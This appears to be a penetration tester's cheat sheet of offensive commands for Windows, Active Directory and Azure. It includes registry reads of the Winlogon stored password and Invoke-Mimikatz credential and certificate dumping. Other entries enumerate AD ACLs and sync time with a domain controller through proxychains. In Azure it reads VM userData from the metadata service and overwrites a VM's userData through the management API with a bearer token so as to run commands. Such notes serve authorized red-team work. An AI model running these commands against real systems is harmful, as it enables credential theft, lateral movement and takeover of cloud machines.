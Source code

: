 **Random**
```
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
script -qc /bin/bash /dev/null
```
**Hide Error in PowerShell**
```
$ErrorActionPreference= 'silentlycontinue'
```
**Filtering Powershell objects**
```
Get-UserProperty -Properties logoncount | Where logoncount -ne 0
```
**Filtering Powershell objects**
```
Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} 
```
**Creds**
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword"
Invoke-Mimikatz -DumpCreds/-DumpCerts 
```
**Service Ticket Combos - https://adsecurity.org/?p=2011**
**DC Time Sync**
```
proxychains net time set -S 172.16.3.5
```
**Expand Property**
```
(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id 
```
**AZURE**
- **Check UserData**
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```
- **Modify UserData**
```
## It is also possible to modify user data with permissions "Microsoft.Compute/virtualMachines/write" on the target VM. Any automation or scheduled task reading commands from user data can be abused!

$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4

$headers = @{
Authorization = "Bearer $accessToken"
}

## Execute Rest API Call

$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```
